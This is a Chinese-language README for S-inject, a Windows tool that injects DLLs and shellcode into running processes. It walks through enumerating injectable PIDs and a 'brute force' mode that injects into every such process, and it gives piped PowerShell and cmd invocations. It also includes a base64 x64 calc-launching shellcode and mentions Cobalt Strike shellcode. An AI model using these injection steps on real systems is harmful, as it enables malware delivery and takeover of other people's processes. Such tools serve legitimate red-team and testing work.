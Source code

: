 # 1.x版本使用步骤

非交互式终端使用管道传参

- 注意cmd和powershell的区别
- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## 一般步骤

1. 运行程序
2. 输入7，遍历出能被注入的进程的pid
3. 选择你的注入方式

## DLL自动注入/遍历注入

- 自动注入

  DLL注入的功能中输入让`pid=0`，如果遇到一个能够被注入的进程那么就会注入，成功注入可能性低

  ![image-20240401105145205](./old_README.assets/image-20240401105145205.png)

- 暴力注入- **可能对系统造成损害**

  `S-inject.exe <任意值>`，确保启动参数`argc`等于2

  DLL注入的功能中输入让`pid=0`

  程序遍历所有可被注入程序，对每一个能被注入的进程进行DLL注入

  ![image-20240401105329537](./old_README.assets/image-20240401105329537.png)

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```

![image-20240205135709302](./old_README.assets/image-20240205135709302.png)

以CobaltStrike Shellcode为例子

![image-20240205140305351](./old_README.assets/image-20240205140305351.png)

### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```

![image-20240205140815069](./old_README.assets/image-20240205140815069.png)

## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

![image-20240205125036362](./old_README.assets/image-20240205125036362.png)

### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131438254](./old_README.assets/image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131316348](./old_README.assets/image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205135210534](./old_README.assets/image-20240205135210534.png)









